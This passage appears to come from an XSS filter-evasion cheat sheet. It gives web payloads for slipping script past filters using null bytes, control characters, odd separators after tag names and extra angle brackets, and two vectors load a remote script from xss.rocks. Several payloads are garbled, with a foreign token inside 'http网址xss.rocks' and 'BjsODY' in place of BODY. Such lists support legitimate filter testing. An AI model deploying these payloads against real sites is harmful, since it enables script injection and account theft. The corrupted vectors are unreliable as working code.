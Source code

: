 ```js
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```


## Spaces and Meta Chars Before the JavaScript in Images for XSS
- This is useful if the pattern match doesn’t take into account spaces in the word javascript: -which is correct since that won’t render- and makes the false assumption that you can’t have a space between the quote and the javascript: keyword.
- The actual reality is you can have any char from 1-32 in decimal:

```js
<IMG SRC=" &#14; javascript:alert('XSS');">
```

## Non-alpha-non-digit XSS
- The Firefox `HTML parser` assumes a non-alpha-non-digit is not valid after an HTML keyword and therefor considers it to be a whitespace or non-valid token after an HTML tag.
- The problem is that some XSS filters assume that the tag they are looking for is broken up by whitespace.
- For example

```js
\<SCRIPT\\s != \<SCRIPT/XSS\\s:

<SCRIPT/XSS SRC="http网址xss.rocks/xss.js"></SCRIPT>
```

Based on the same idea as above, however,expanded on it, using Rnake fuzzer. The Gecko rendering engine allows for any character other than letters, numbers or encapsulation chars (like quotes, angle brackets, etc…) between the event handler and the equals sign, making it easier to bypass cross site scripting blocks. Note that this also applies to the grave accent char as seen here:

```
<BjsODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.

```js
<SCRIPT/SRC="http网址xss.rocks/xss.js"></SCRIPT>
```

## Extraneous Open Brackets
Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:

```js
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```
